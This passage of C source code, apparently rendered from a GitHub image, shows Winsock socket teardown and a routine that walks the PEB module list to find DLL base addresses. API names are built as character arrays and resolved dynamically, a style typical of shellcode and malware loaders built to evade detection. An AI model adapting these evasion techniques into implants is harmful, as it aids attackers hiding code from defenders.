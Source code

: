     _closesocket = ( int(WINAPI * )
    (
        SOCKET s
    )) _GetProcAddress( (HMODULE)ws2_32dll_base, closesocket_string );

    if( NULL == _closesocket )
    {
        // printf( "[+] Could not dynamically resolve closesocket()!\n" );
        return 1;
    }

    _closesocket( wSock );

    //
    // Dynamically resolve WSACleanup function
    // 
    char wsacleanup_string[] = { 'W', 'S', 'A', 'C', 'l', 'e', 'a', 'n', 'u', 'p', '\0' };
    int ( WINAPI * _WSACleanup )();
    
    _WSACleanup = ( int(WINAPI *)()) _GetProcAddress( (HMODULE)ws2_32dll_base, wsacleanup_string );
    
    if( NULL == _WSACleanup )
    {
        // printf( "[+] Could not dynamically resolve WSACleanup\n" );
        return 1;
    }
    
    _WSACleanup();

    // printf( "[+] Exiting with status 0!\n" );
    return 0;
}

//
// This function gets the base address of the module being searched
// 
inline LPVOID get_module_by_name( wchar_t* module_name )
{
    // w// printf( L"[*] Finding address of module: %ls\n", module_name );
    //
    // Access the PEB from GS register offset x60
    // 
    PPEB peb = NULL;
    peb = ( PPEB )__readgsqword( 0x60 ); 

    //
    // Get the Ldr to find the module list
    // 
    // printf( "[*] Found address of peb->Ldr: %p\n", peb->Ldr );
    PPEB_LDR_DATA ldr = peb->Ldr;
    LIST_ENTRY module_list = ldr->InLoadOrderModuleList;

    PLDR_DATA_TABLE_ENTRY front_link = *( (PLDR_DATA_TABLE_ENTRY*)(&module_list) );
    PLDR_DATA_TABLE_ENTRY current_link = front_link;
    
    LPVOID return_module = NULL;

    // 
    // Go through the doubly linked list
    // 
    wchar_t current_module[1032];

    while( current_link != NULL && current_link->DllBase != NULL ) 
    {   
        USHORT buffer_len = current_link->BaseDllName.Length / sizeof( WCHAR );
        USHORT i = 0;

        //
        // Reset the current_module string
        //